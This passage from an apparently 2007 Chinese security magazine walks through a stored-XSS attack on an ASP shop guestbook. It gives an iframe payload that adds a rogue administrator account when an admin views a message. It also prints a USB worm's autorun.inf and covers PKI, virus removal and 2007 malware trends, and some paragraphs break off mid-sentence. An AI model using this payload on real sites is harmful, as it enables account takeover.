rs("name")=iname '将值写入数据库
rs("qq")=iqq '将值写入数据库
rs("email")=iemail '将值写入数据库
rs("url")=iurl '将值写入数据库
rs("sex")=isex '将值写入数据库
rs("content")=icontent '将值写入数据库
rs("time")=now() '将值写入数据库
rs.update
rs.close
set rs=nothing
session("antry")="" '提交成功, 清空session("antry")数据, 防止重复提交
end if
%>
```

通过上面的代码分析可以看到，代码只检测了姓名和提交的内容，对其他的提交参数则任意放行。这就给了攻击者可乘之机。

- 1. 测试跨站攻击。现在，直接在QQ一栏中输入"<script>alert('一个电脑爱好者的测试')</script>"。提交留言后，就会弹出对话框。
- 2. 利用WSockExpert获取数据。现在，可以考虑通过Cookie获得后台管理员的权限。进入后台添加一个管理员cndes，密码为12345。打开WSockExpert抓包工具，然后选择IE图标进程，点击工具栏上的小三角图标即可开始获取数据。
- 3. 设计跨站攻击代码。对获得的数据进行分析，一条重要的信息是：http://localhost/shopv8/admin/saveadmin.asp?action=add&admin2=cndes&password=12345&flag=1。由此可知，flag=1才是管理员。于是，就可轻松设计跨站攻击代码：<iframe src="saveadmin.asp?action=add&admin2=cndes1&password2=12345&flag2=1">。
- 4. 对跨站漏洞进行利用。将这段代码填写在输入留言时的QQ栏中，当管理员查看此条留言时，系统就会添加一个名为cndes1、密码为12345的新用户。这样，就可以轻松得到一个管理员账号了。

#### 三、步步为营：运用网络安全防范技术及应用分析

##### 1. 加密认证篇：PKI技术与网络交易安全

“魔高一尺，道高一丈”，本年度以来，新的安全防范技术层出不穷，新的安全工具也给广大用户带来了很多实惠。如本年度的360安全卫士、各大病毒厂商推出的免费清理软件等。在针对网络攻击的安全防范方面，也出现了更多的成熟技术。综合利用好这些技术，我们就能够“步步为营，反客为主”，在攻防战役中把握主动权。下面，选择其中一些典型的安全应用进行分析。

数字化时代，通过网络进行数据传输的场合越来越多，这不仅能够提高办公效率，也大大降低了各项费用。但是，传统的数据传输通常采用用户名和口令进行身份鉴别，这种方式的弊端有很多，主要表现在以下方面：

数据机密性及精确的文件访问难以保证。用户需要对敏感信息进行加密，即使数据被截获也无法得到其内容。另外，用户拥有文件的访问权限后，也就拥有了其文件夹内所有文件的访问权限，机密文件的安全保护难以满足。

不可抵赖性。在电子商务、电子政务等活动中，数据传输一旦完成，发送方不能否认他发送的信息，接收方则不能否认他所收到的信息。数据的完整性。要求接收方能够验证收到的信息是否完整，是否被人篡改过。很显然，传统的数据传输机制还存在很大问题。要保证网上数字信息的传输安全，除了在通信传输中采用更强的加密算法等措施之外，还必须建立一种信任及信任验证机制，使不同的用户拥有合适的访问权限。通过对本年度安全技术的进一步考查，PKI（Public Key Infrastructure）技术开始得到了广泛的应用。PKI（Public Key Infrastructure）是面向大型网络应用环境的公开密钥管理机制，它是一组硬件、软件、人员、策略等的集合，可以创建、管理、存储、分配和撤销基于非对称加密体制的公钥证书。PKI系统有效地解决了加密技术、数字签名技术、认证技术等问题，其基本组成部分一般包括：认证机关CA（Certification Authority）、证书库、密钥备份及恢复系统、证书作废处理系统、客户端证书处理系统等，构建PKI系统也将围绕着这五大系统来构建。典型的PKI系统结构如图7所示。



其中，CA系统所实现的主要功能是数字证书的颁发和管理，具体包括用户鉴别与确认、证书批准、证书更新和证书吊销；RA（Registration Authority）系统负责申请者的信息录入、审核以及证书发放等工作，可以对发放的证书完成相应的管理功能；数字证书（Digital Certificate）由CA根据X.509协议产生，它所包含的信息有：版本号、序列号、签名算法、发出该证书的认证机构、有效期限、主题信息、公钥信息以及认证机构的数字签名等。为了加深用户的理解，下面以淘宝（http://www.taobao.com）所使用的“支付宝”数字证书为例，通过灵活而简单的讲解，提高用户的安全意识。步骤如下：

- 第1步：登录支付宝（http://www.alipay.com）网站。 如今，电子商务与我们的日常生活息息相关，相信很多用户都开始计划开网络商店了。但是，进行电子商务交易之前，我们首先要考虑的是安全问题。在支付宝中，通过设置支付宝账户的安全保护问题、绑定手机短信、申请认证及数字证书等操作，可以确保账户和资金安全。使用之前，用户需要注册一个支付宝账户。通过该账户，用户能够完成以下日常操作：给账户充值、查询账户收支明细、将账户金额提取到银行账户、管理账户个人信息等。如图8所示，就是将支付宝中的资金转入银行账户，使用十分方便。



> 小知识 按照用户身份的不同，支付宝数字证书会给予相应的网络资源访问权限。申请使用数字证书后，如果在其他电脑登录支付宝账户，没有导入数字证书备份的情况下，只能查询账户，不能进行任何操作，这样就相当于用户拥有了类似“钥匙”一样的数字凭证，增强账户使用安全。使用数字证书后，即使发送的信息在网上被他人截获，甚至丢失了个人的账户、密码等信息，仍可以保证账户、资金安全。

- 第2步：登录支付宝账户并申请数字证书。
登录支付宝后，单击“安全中心”→“数字证书”栏目，然后点击“点此申请数字证书”按钮图标，即可申请数字证书。申请时，首先要进行安全验证，输入身份证件号码、设置安全问题后，系统会提示填写证书的使用地点，以方便用户日后远程管理证书时能清楚辨别证书的使用地点。

- 第3步：备份数字证书。
申请完毕，点击“备份”按钮以备份数字证书，可以把数字证书保存到移动硬盘、U盘或备份到电脑其他非系统盘上。备份数字证书时，首先使用数字证书登录支付宝，从“安全中心”→“数字证书管理”，选择“备份证书”即可完成数字证书的备份。备份时，一定要牢记保护密码。操作完毕，会生成一个“XXXXX.pfx”文件，该文件就是数字证书的备份。

- 第4步：导入数字证书。
如果在另外一台机器上使用数字证书，就需要导入已经备份的数字证书了。导入证书时，首先进入数字证书管理界面，选择证书备份文件并输入密码，然后单击“导入”按钮。这时，证书助手会提示是否导入。导入后，为了加强安全性检查，系统还会提示进行安全校验。完成上述步骤，即可在本地机器成功安装数字证书。

- 第5步：使用数字证书进行交易管理。
成功安装数字证书后，即可进行多种网络交易操作，如买入交易、卖出交易、付款、发货、确认收货、退款交易、红包、充值等。需要进行证书管理时，单击“我的支付宝”→“管理证书”，即可方便地进行查看证书、备份证书、删除本地证书、申请注销证书等操作。

采用基于证书中心和智能卡的强身份认证，以及高强度的文件加密传输存储，保证了数据的机密性、不可否认性和权限控制，有效地防止了对数据的非法盗窃和非法传播。当然，除了信息安全传输之外，还有信用机制问题、支付技术问题、黑客问题、法律保障的安全问题、观念问题等。总之，在网络安全日益严峻的形势下，使用更加可靠的安全认证技术必将成为当前网络交易的新趋势。在网络炒股、电子商务、网络银行、网络办公等场合中，PKI认证技术和数字证书也将发挥越来越重要的作用。

##### 2. 病毒防范篇：U盘的安全使用与防范

2007，通过U盘传播的病毒呈快速增长趋势，而针对此类病毒的防范也越来越困难。比如，在打印店、公用电脑上拷贝文件时，U盘就很容易被感染，此类攻击可谓防不胜防。下面，以本年度比较流行的一个“daxianbiyeliunian”U盘病毒为例进行分析。现象如下：感染后发现U盘下多了两个文件，分别是：一个名字为“*”的VBScript脚本文件，一个autorun.inf文件。直接删除该文件、格式化U盘，或者使用多款病毒查杀软件杀毒，均不能有效清除该病毒。其中，autorun.inf文件的内容如图9所示。

```
[autorun]
open=WScript.exe .\.vbs
shell\open=打开(&O)
shell\open\Command=WScript.exe .\.vbs
shell\open\Default=1
.vbs
```

图9

对付此类病毒，解决思路如下：

- 第1步：对现象进行分析。
单击“工具”→“文件夹选项”→“查看”，在此界面中，勾选“显示系统文件夹的内容”，取消“隐藏受保护的系统文件”，并选择“显示所有文件和文件夹”。这样，非法文件被显示出来而公之于众了，直接删除该文件。重新插入U盘，这时发现该病毒文件依然存在。同时，“显示系统文件夹的内容”被重新勾选。可见，该病毒十分顽固。

- 第2步：通过autorun.inf文件的提示，查看并分析进程。
通过观察该软件，发现其中有一句“open=WScript.exe”。也就是说，U盘每次自动运行时，都会加载该执行文件。查看进程，果然发现有WScript.exe这样一个进程。

- 第3步：终止非法进程。
选中该进程并点击右键，在弹出的菜单中选择“结束进程”。同时，删除U盘下的非法文件。现在，非法文件能够正常删除。重新插上U盘，显示没有病毒文件。按照常理，病毒现在似乎已经得到清除。不过，重新启动电脑后，该病毒依然存在，让人头疼不已。这个时候不能心急，需要仔细思考问题出现的根源。

- 第4步：查看启动项和进程。
通过360安全卫士打开进程项，可以看到，WScript.exe进程依然存在。因此可以判断：系统启动后，自动重新加载了该进程。在这种思路的指导下，通过360安全卫士或直接通过msconfig等命令打开启动项，发现其中多出了一个名为“explorer”的进程，命令行为“*.vbe”。通过与autorun.inf文件的比较，发现该启动项为非法，单击“详细信息”界面下方的“删除此项”按钮。找到问题的根源后，再次重新启动系统，病毒完全清除，现在可以真正告一段落了。 在实际应用中，防范此类病毒时，最好通过360安全卫士等软件直接禁止U盘的自动运行功能；打开U盘时，最好通过点击右键打开，不要直接双击打开。此外，需要注意的是，本年度通过U盘传播的病毒和木马十分多，危害性也日益增大，有时使用杀毒软件也不一定能解决问题。这时，普通用户还需要懂得一些手动病毒清除方法，通过对代码的基本特征进行分析，了解其攻击原理，从而有效地将其清除。

##### 3. 网管进阶篇：网络安全策略的联动趋势

通过上面几大部分的讲解，相信很多用户已经开始思考：在众多的网络攻击和纷繁复杂的网络技术面前，网络管理员应该如何保障我们的网络安全？作为普通用户，如何更好地实现自身安全防范？下面，以典型的校园网络为例。

随着高校网络规模的不断扩大，网络系统的复杂程度和技术难度已大大增加。开放的网络环境和活跃的用户群体、大量的网络应用和有限的资金投入，都给校园网的安全管理带来了很多麻烦。例如：网络设备和应用种类繁多，非授权访问、破坏数据完整性、干扰系统正常运行和利用网络传播病毒等。在复杂的校园网络中，单纯采用某种安全技术已经不能有效地抵御种类繁多的入侵方式，多种网络产品的联动成为一个必然的趋势。在校园网络中，主要存在如下网络安全管理问题。

###### （1）病毒问题

现在，病毒技术的网络化发展趋势越来越明显，传播速度也越来越快。在校园网中，当一台新电脑安装好系统后，一旦接入网络这台机器就有可能已经中毒了。用户不安装杀毒软件或者已安装，但病毒库没更新，都会导致杀毒软件形同虚设。

###### （2）系统补丁升级的滞后性

现在，各种系统软件和应用软件的漏洞不断地被公布出来，相关的公司也会不断提供相应的补丁给用户进行系统升级。但是，面对越来越多的漏洞和补丁，以及校园网中数目庞大的用户群，如何保证所有用户的安全漏洞做到及时更新也是一个很难解决的问题。

###### （3）用户网络访问行为不可控制性

在校园网中，包含了校园管理信息系统、网上教育系统、校园主干网、校园网与Internet互联、远程访问服务等系统。同时，校园网的用户群十分庞大，对不同的部门、系统、网段、用户，都会有相应的安全要求与安全级别，这样，安全问题才能做到有的放矢。如何针对不同的用户去进行相应的网络访问行为授权，成为网络管理员在网络管理行为控制方面的一个重要工作。

###### （4）用户的入网身份无法识别

在大部分校园网中，用户往往不需要通过任何的身份识别手段就可以很轻松地进入一个网络。但是，接入网络的这个用户系统本身是否是安全的，会不会对网络产生威胁，这些对管理者来说都无法有效控制。因此，管理者希望用户在接入网络的时候就可以对他们进行有效的身份识别。

###### （5）未知网络安全事件的难防御性

目前的网络安全体系主动性比较差，很多都是基于已经出现的网络安全事件进行防范，对可能发生的网络安全行为（如新的病毒或攻击）则明显考虑比较欠缺。同时，在不断的升级改造过程中，网络设备的型号也越来越多，Web服务器、应用服务器、数据库或者其他网络服务也越来越庞大。这也给校园网络的规范化、统一化和预期的安全管理带来了不少难题。

通过上面的安全威胁分析，可以看到，校园网络安全管理正朝着以下方向发展：

-   1. 统一可靠的安全规范。
-   2. 将网络设备联动起来，让网络自动进行安全防御。
-   3. 接入网络用户需要分类。针对接入用户的不同来自动设定用户的网络访问行为和范围，通过必要的身份识别和系统安全性评估才能够正常接入并使用网络。
-   4. 保护校园网络投资。需要将原有的安全防护设备都联动起来，如购买的杀毒软件、IDS等相应的安全设备，从而有效地保护网络安全投资以及后续的扩展性。
-   5. 执行安全策略，通过安全可信网络的相关安全提示，让用户增强对网络安全的信心。

下面是一个校园网络的联动方案，安全联动设备包括：交换机、路由器、防火墙、IDS、安全客户端。网络联动设备还具有以下功能：用户入网身份控制；安全事件联动策略执行；安全事件的检测；安全事件的上报；针对安全事件的自动阻断（串联情况下）。在联动的过程中，网络能进行安全事件的自动防御，根据不同的安全事件，安全管理平台会将相应的安全策略下发到安全联动设备中或者安全客户端上，从而保证用户系统免受安全攻击。如图10所示。



可见，在日常生活中，普通用户也要逐步理解网络管理员的技术思路，在整体安全系统中找到自身的定位。

通过对上述典型安全应用的讲解，我们可以看到，在网络环境中，要保证整个系统的安全，管理员必须考虑多方面的因素，比如，攻击者是如何进入他人的电脑的，攻击者在被入侵的电脑上如何使用攻击工具。例如，很多攻击者喜欢在被入侵服务器上安装FTP软件或者开放FTP服务，盗取对方数据，甚至利用对方服务器传播恶意病毒；聪明的攻击者甚至考虑了如何清除自己所留下的蛛丝马迹。在这种情况下，网络安全管理员的整体防范措施也显得更加重要了。因此，攻防之间的较量是一个此消彼长的过程，关键在于掌握主动权，“知己知彼”才能“百战不殆”。

### 傻博士问答：光驱在Windows 98中丢失

故障现象：一台COMBO光驱在Windows 98下没有盘符，无法使用。而当用户使用光盘启动DOS之后，光驱工作正常，没有任何问题，读盘表现也十分稳定。

故障分析：这应该算是比较常见的故障，主要是因为Windows 98操作系统对于IDE通道兼容性不佳，部分光驱容易无法被操作系统识别。

解决方法：建议用户升级Windows 2000/XP，应该能够完全解决问题。如果暂时不想升级的话，可以重新安装主板的驱动，特别是VIA以及SiS主板，为IDE打上补丁。对于Intel芯片组的主板，可以尝试删除IAA加速补丁。如果还是不能奏效，那么进入“设备管理器”，将其中的“硬盘控制器”删除，然后刷新以便Windows操作系统重新识别，这样一般就能解决问题。此外，有时选择“关闭系统，切换到MSDOS”，然后再键入Win命令也可能让光驱起死回生，因为Windows 98对部分型号的光驱可能存在兼容性问题，需要DOS下的驱动辅助。

### 2007热点病毒及防范完全接触

◆文/风之扬



2007年以来，我国网民人数和上网计算机数持续增加，越来越多的人接触到互联网，互联网与人们的日常生活日益密切。不过，随着互联网应用逐步普及，安全问题也日益突出。公安部举办的“全国信息网络安全状况暨计算机病毒疫情调查”显示，我国信息安全事件发生比例连续3年呈上升趋势，2007年达到65.7%，较2006年上升11.7%。其中，病毒已经成为安全头号杀手，在前两年基本持平的情况下，2007年计算机病毒感染比例达到历年最高的91.4%。为了帮助用户更好地把握安全趋势，本专题将对2007年病毒发展的新趋势进行综合分析，并选择典型的案例和专杀工具进行介绍，以达到“多管齐下，专门治理”的目的。

#### 一、2007年热点病毒与安全趋势分析

趋势就是风向标，它反映了一段时间的焦点问题。通过分析各大杀毒软件厂商及安全站点，可以对本年度热点病毒发展趋势进行如下总结。

##### 1. 整体趋势：病毒感染持续上升，安全形势不容乐观

根据瑞星公司的统计，2007年全国有超过3500多万台电脑曾经被病毒感染，占到上网电脑数量的一半以上，中国大陆地区已经成为全球电脑病毒危害最严重的地区。其中，以U盘为主要传播途径的“帕虫”病毒成为新的毒王，“威金”病毒和“熊猫烧香”分列第二、第三位。综合各大站点的病毒预报情况，本年度比较热门的病毒包括：帕虫（Worm.Pabug，金山称AV终结者，江民称U盘寄生虫）、威金蠕虫（Worm.Viking）、熊猫烧香（Worm.Nimaya，又称尼姆亚）、网络游戏木马（Trojan.PSW.OnlineGames）、QQ通行证（Trojan.PSW.QQPass）、ARP病毒（多个病毒均具有ARP攻击行为，通称为ARP病毒）、征途木马（Trojan.PSW.ZhengTu）、MSN相片（Worm.Mail.Photocheat.A）、梅勒斯（Trojan.DL.Mnless）、灰鸽子（Backdoor.Gpigeon）等。整体而言，病毒传播依然十分迅猛，病毒安全的形势仍然不容乐观。

##### 2. 传播多元化：U盘传播和网络攻击日益猖狂

随着各种互联网应用尤其是移动存储介质和网络存储技术的发展，大量的基础网络应用成为黑客/病毒制造者的攻击目标。目前主流的基础网络应用包括：电子邮件、网页浏览、网上银行和证券、网游、下载（迅雷/BT/电驴）等，都存在各种安全隐患。这些网络应用自身的安全成为严重问题，特别是各大厂商都趋于将自己的产品发展成为社区、支付/交易平台，因此其账号、密码成为电脑病毒的直接窃取目标。本年度以来，通过U盘、网站、安装软件以及电子邮件进行攻击的现象日益严重。

首先，通过移动存储介质传播病毒的比例持续上升。由于U盘体积小、存储容量大，用户几乎“人手一盘”。根据统计，计算机病毒通过U盘等移动存储介质传播的问题比较突出，从2006年的23%上升到2007年的40%。以2007年流行的“帕虫”病毒为例，它主要通过MP3（或者U盘）进行传播，感染后破坏几十种常用杀毒软件，还会使QQ等常用程序无法运行。由于现在使用MP3（U盘）交换歌曲和电影文件的用户非常多，使得该病毒传播极广。而且，2007年的许多病毒都借鉴了“帕虫”病毒的编写手法、传播方式等，很难被彻底清除。此外，一些病毒利用人们频繁使用数码相机的特点，通过感染数码相机内的存储卡等移动存储设备实现传播。用户一旦将带有病毒的数码相机与电脑连接，即有可能造成病毒蔓延的现象。

其次，随着迅雷下载、BT下载、网络视频等新兴软件和网络应用的兴起，其用户群也日益庞大，这些软件相对复杂，而且某些功能存在先天的不足，从而导致病毒通过这些软件侵入用户电脑的几率大大增加。以挂马攻击为例，当脚本木马侵入网站服务器之后，就会自动搜索硬盘上的所有网页文件，在其中批量插入网页木马，当用户访问带毒网站时，就会被感染。同时，这些被植入网站的木马病毒能够智能判断访问者使用的操作系统、浏览器等信息，找出其中可能存在的漏洞，然后执行针对每种漏洞的攻击程序。与此同时，基于Web 2.0的网络蠕虫也开始流行，它们通过网站XSS（跨站）漏洞进行迅速传播，其潜在的危害性更大，如利用百度空间自动添加好友链接的蠕虫等。此外，通过安装软件、电子邮件等形式进行病毒传播的病毒也十分猖獗，利用多种传播手段进行传播已经成为病毒发展的新趋势。

##### 3. 类型多样化：病毒变种增多，增长速度加快

网络技术的飞速发展，使得制造新病毒也更加容易。2007年以来，计算机病毒的类型继续呈现多样化、种类繁多的特点，而且不断产生新的变种。从金山毒霸、瑞星，以及江民、趋势科技、诺顿等病毒厂商及其站点公布的消息来看，被截获的病毒总量明显上升，老病毒的新变种则占据了其中的大部分。从“熊猫烧香”再到近期出现的“灰鸽子”，一波又一波的电脑病毒给电脑使用者带来了不小的麻烦。这些病毒往往采用最新的编程技术，病毒变种快、更新快、存活能力强，甚至还可以对抗安全软件以躲避查杀。此外，我国网络流行病毒的本土化趋势更加明显，很多病毒主要是针对国内一些应用程序专门制作的。在病毒名称中，带有“中国”以及以国内银行、证券为目标的病毒越来越多。这也表明，国内病毒制作技术也在这几年得到了飞速的提高。

##### 4. 病毒产业化：病毒功利化趋势明显

如今，趋利性成为计算机病毒发展的新趋势。网上制作、贩卖病毒、木马的活动日益猖獗，利用病毒、木马技术进行网络盗窃、诈骗的网络犯罪活动呈快速上升趋势，网上治安形势非常严峻。“利益”是目前病毒发展的源动力，目前病毒的绝大部分变化都是围绕此中心展开的。比如，有人想盗网游装备，有人想“免费”用QQ服务，有人想窥探他人隐私，有人想提高网站流量，有人想迅速“抢占”桌面……有需求就有市场，有市场就会有现金流。以“熊猫烧香”的制造者李俊为例，他不停编写“武汉男生”、“武汉男生2005”以及“QQ尾巴”等病毒的主要目的，就是为了赚钱。根据人民网的报道，李俊以自己出售和由他人代卖的方式，每次要价500～1000元不等，将该病毒销售给120余人，获利10万余元。据估算，被“熊猫烧香”病毒控制的“网络僵尸”数以百万计，访问按访问流量付费的网站，一年下来累计可获利上千万元。在利益的驱动下，灰色产业链也在悄然形成。病毒的传播也不再是盲目的、无目的的传播，而是针对可能获取利益的群体进行定向传播。目前国内著名的商业木马还有：灰鸽子、黑洞、阿拉QQ大盗、顶狐下载器等。此外，一些由正规厂商制作的流氓软件大行其道，软件运行后会定期或随机地释放（或从互联网下载）广告程序、其他的下载器。这些广告程序或下载器带有明显的木马特征，流氓软件和病毒之间的界限已经越来越模糊。对于用户来说，无论是被病毒破坏了电脑文件，还是被木马盗取了账号密码，损失无疑都是惨重的。

##### 5. 病毒重灾区：网络聊天和网络游戏

整体安全。当出现漏洞时，即使该软件自身不运行，它制造的漏洞也可以使操作系统的安全性降低，使得黑客可以轻易入侵。其次，病毒利用IM软件自动发送带毒网址，用户浏览这些网站后就会中毒；或者发送钓鱼网站的网址，试图骗取用户的银行账号、支付宝账号等信息。此外，黑客往往会编写专门的QQ木马，通过进程注入、键盘钩子、读取内存等手段窃取QQ密码；而淘宝旺旺等软件和网上交易、支付平台关系更加密切，更容易成为黑客窃取机密信息的重要目标。

除了网络聊天，网络游戏、股票交易等也开始成为病毒的“重灾区”。网络游戏是网络上最重要和广泛的应用之一，据统计，2006年中国网络游戏玩家为3112万人，接近经常上网的网民数的50%。由于网络游戏装备、虚拟财产可以很方便地在网络上出售，换来丰厚的利润，因此成为黑客窥测的主要目标。根据瑞星的统计，在2007年上半年截获的新病毒中，木马和后门病毒超过11万个，这些病毒绝大多数与网络游戏有关。在2007年上半年十大病毒中，游戏相关病毒占据了3个。密码失窃、装备被盗卖，已经成为网游玩家最为头疼的问题。尽管网游厂商也采取了一定的安全举措，例如开发针对本游戏的木马专杀工具，使用硬件随机密码生成器（如盛大密宝），加大人工投诉的处理速度等。但是，这些措施在本质上并不能保证用户的安全。

##### 6. 防患于未然：轻量级安全防护软件引领风骚

在安全防范方面，本年度也出现了一些新的行业规章和实用软件。为了应对日益猖獗的网络病毒和恶意软件，2007年6月15日，中国互联网协会公布了《“恶意软件定义”细则》，并对强制安装，难以卸载，浏览器劫持，广告弹出，恶意收集用户信息，恶意卸载，恶意捆绑；其他侵犯用户知情权和选择权的恶意行为等八种现象进行详细解释说明，只要涉及任意一项，便可以被认定为恶意软件。同时，为了对付泛滥成灾的流行病毒及流行病毒的变种，许多杀毒厂商和其他软件公司推出了许多免费的安全防护工具，包括：360安全卫士、金山毒霸系统清理专家、瑞星卡卡上网安全助手、恶意软件清理助手、Windows清理助手等。与庞大的传统杀毒软件相比，这些工具的共同特点是实用、小巧，偏重于系统安全防护。此外，许多国外安全厂家也推出了优秀的安全防护工具，大多偏重于清理间谍软件和其他恶意程序。

针对本年度热点病毒和安全技术的发展趋势，本文将选择其中的典型病毒和专杀工具，通过针对性的讲解，分析其原因并给出实用的反病毒技巧和防护方法。

#### 二、2007流行病毒及专杀工具大扫描

“射人先射马，擒贼先擒王”。在防范病毒的过程中，通过对重点病毒进行分析，并讲解一些针对性的防范，就可以了解病毒的发展趋势，在实践中做到有的放矢，疏而不漏。

##### 1. 热点病毒点评及防范

###### （1）帕虫（Worm.Pabug，金山称AV终结者，江民称U盘寄生虫）

“帕虫”病毒主要通过U盘进行传播，它不但能够破坏几十种常用的杀毒软件，还能够使QQ等程序无法正常运行。而且，该病毒会自动连接到拥有病毒的网站，自动下载数百种木马病毒，用户的网银、网游、QQ账号密码以及机密文件很容易处于极度危险之中。更令人头疼的是，该病毒自我保护意识超强，如果用户使用Google、百度等搜索引擎搜索“病毒”，浏览器也会被病毒强制关闭，使得用户无法取得相关信息。

中毒后，比较典型的现象包括：生成很多8位数字或字母随机命名的病毒程序文件，并在电脑开机时自动运行；能够发现杀毒软件，即使手动删除病毒程序，下次启动这些软件时还会报错；破坏系统安全模式，用户无法进入安全模式修复；禁用Windows自动更新功能和Windows防火墙，当木马下载器工作时，不会出现任何提示窗口；不能正常显示隐藏文件（目的是更好地隐藏自身不被发现）；搜索“杀毒”网页就被关，拦截所有安全网站；在本地硬盘、U盘或移动硬盘生成Autorun.inf和相应的病毒程序文件，通过自动播放功能进行传播。这里要注意的是，很多用户格式化系统分区后重装，双击访问其他磁盘时，很容易发生再次中毒的现象，让人感觉十分头疼。因此，该病毒的破坏性很大。

| 病毒名称 | 帕虫（Worm.Pabug，金山称AV终结者，江民称U盘寄生虫） |
| :--- | :--- |
| 解决办法 | 清除步骤如下：<br>在能正常上网的电脑上下载专杀工具。<br>在正常的电脑上禁止自动播放功能，以避免通过插入U盘或移动硬盘而被病毒感染。<br>执行专杀工具，清除已知的病毒，修复系统配置。把专杀工具从正常的电脑复制到U盘或移动硬盘上，然后再复制到中毒的电脑上。需要注意的是，专杀工具的重要功能是修复被破坏的系统，包括：修复映像劫持；修复被破坏的安全模式；修复隐藏文件夹的正常显示和删除各磁盘分区的自动播放配置。<br>中毒后不要慌张，在不重启电脑的情况下，重新启动杀毒软件，升级病毒库并进行全盘扫描。通过这种方法，尽量清除木马下载器下载的其他病毒。<br>为了保证安全，建议网管采取综合措施防范ARP攻击挂马事件。 |
| 专杀工具 | 金山：http://zhuansha.duba.net/259.shtml<br>瑞星：http://download.rising.com.cn/zsgj/orangeaug.com |

###### （2）威金蠕虫（Worm.Viking）

这是一种感染可执行文件的蠕虫病毒，主要通过共享目录、文件捆绑、运行被感染病毒的程序以及带病毒的邮件附件等方式进行传播。病毒运行后，可将自身伪装成系统正常文件以迷惑用户，通过修改注册表项使病毒开机时可以自动运行。同时，病毒可以通过线程注入技术绕过防火墙的监视，连接到病毒作者指定的网站下载特定的木马或其他病毒。其传播速度十分迅速，一旦进入局域网络，很快就会导致整个局域网络瘫痪。它还会在受感染的计算机系统里运行后，修改系统注册表的自启动项，使蠕虫随计算机系统启动而自动运行。

该病毒危害性很大，主要表现在：
感染系统文件，造成系统损坏，且手动清除困难；
下载恶性木马，盗取魔兽、传奇账号。病毒运行后，可以枚举内网的所有可用共享，并尝试通过弱口令方式连接感染目标计算机。
强制禁用国内知名反病毒软件。
变种多，新病毒出现速度快。
针对上述特征，可以通过以下方法清除该病毒。

| 病毒名称 | 中文：威金（又名维金）；英文：Worm.Viking.m |
| :--- | :--- |
| 解决办法 | 遇到问题后可以首先采用以下方法进行防范：<br>升级至最新的病毒库或下载最新的专杀工具；<br>关闭相关网络共享资源或设置复杂的密码；<br>断开全部网络连接；<br>进入安全模式进行杀毒。 |
| 专杀工具 | 毒霸下载：http://zhuansha.duba.net/246.shtml<br>瑞星下载：http://download.rising.com.cn/zsgj/Vikingkiller.scr |

###### （3）熊猫烧香（又称武汉男生，Worm.Nimaya，尼姆亚）

“武汉男生”，俗称“熊猫烧香”，这是一个感染型的蠕虫病毒，该病毒作者李俊在本年度被判入狱，不少公司对他发出的高薪聘用邀请也引起了不少争议。该病毒能感染系统中exe、com、pif、src、html、asp等文件，它还能中止大量的反病毒软件进程并能删除扩展名为gho的文件（gho为GHOST的备份文件），使用户的系统备份文件丢失。这个病毒采用了很有特色的熊猫头像作为图标，很容易诱使用户误入圈套。值得注意的是，由于该病毒编写存在问题，用户的一些软件可能会被破坏，并导致无法运行。

| 病毒名称 | 熊猫烧香（又称武汉男生，尼姆亚） |
| :--- | :--- |
| 解决办法 | 可以直接使用专杀工具。如果已经中毒，直接运行专杀工具也会失败，病毒会阻止专杀工具启动。建议重新启动系统到带网络连接的安全模式下进行查杀。重启系统时，按F8选择安全模式，再运行专杀工具进行处理。 |
| 专杀工具 | 毒霸下载：http://zhuansha.duba.net/253.shtml<br>瑞星下载：http://download.rising.com.cn/zsgj/NimayaKiller.scr |

###### （4）热门网络游戏和网络交易类

比较热门的病毒包括：“征途木马”、“大话西游/梦幻西游木马”、“魔兽世界木马”、“剑侠情缘木马”、“股票盗贼”、“网银大盗”等。

-   A. 大话西游/梦幻西游木马
    该类病毒为盗取大话西游、梦幻西游网络游戏的游戏账号、密码、角色及游戏角色装备信息的一类木马，中毒后会导致用户机器不稳定，系统重要文件关联被修改、无法正常使用反病毒软件、用户上网速度变慢等。病毒盗取用户游戏相关信息给用户带来一定的经济损失。
    专杀工具下载地址为：http://zhuansha.duba.net/250.shtml。
-   B. “魔兽木马”
    这是专门针对魔兽世界网络游戏，以盗取用户游戏账号密码信息的木马。
    病毒主要通过文件捆绑、欺骗运行可带病毒的邮件附件等方式进行传播。病毒运行后将自身伪装成系统正常文件，以迷惑用户，通过修改注册表项使病毒开机时可以自动运行，同时病毒通过线程注入技术绕过防火墙的监视，利用键盘钩子技术在后台记录用户输入的账号密码信息，通过鼠标钩子获取用户游戏角色和装备信息；并且病毒尝试连接特定的网站进行病毒的自我更新；修改用户机器重要注册表项，使用户更加难以清除。
    专杀工具下载地址为：http://zhuansha.duba.net/249.shtml。
-   C. “剑侠情缘木马”
    随着“剑侠情缘”网络版在网络中的广泛流行，“剑网木马”病毒也随之而生。该病毒在网络中通过各种途径传播。感染系统后，该病毒监视系统中剑网客户端的运行，记录玩家的账号及密码，并发送给指定的E-mail地址，给广大的剑网玩家造成了极大的盗号威胁。
    而且，该木马还会造成系统的不稳定和隐私的泄漏。
    专杀工具下载地址为：http://zhuansha.duba.net/146.shtml。
-   D. “征途木马”
    征途木马是盗取网络游戏“征途”游戏信息的木马，它能把得到的信息通过邮件发送到木马种植者的邮箱中。
    专杀工具下载地址为：http://zhuansha.duba.net/254.shtml。
-   E. “股票盗贼”病毒
    针对股票交易的木马病毒属于同一种木马病毒类别，这类病毒以偷盗账号、密码为主要目的。以典型的“股票盗贼”木马病毒为例，它会记录用户操作信息，把账户密码信息悄悄发送到指定电子邮箱。
    专杀工具下载地址为：http://zhuansha.duba.net/229.shtml。

###### （5）即时聊天类

这些病毒利用了社会工程学原理，通过向聊天好友发送诱惑性消息，诱骗对方点击下载含有病毒文件的文件名。

不同的压缩包。比较典型的病毒包括：“MSN机器人”、“QQ尾巴”、“MSN性感鸡”、“五毒虫”等。该变种运行后，会释放病毒文件到系统目录中，同时修改注册表中的启动项，使变种与受感染的操作系统一同启动。

### A. “MSN机器人”、“MSN性感鸡”

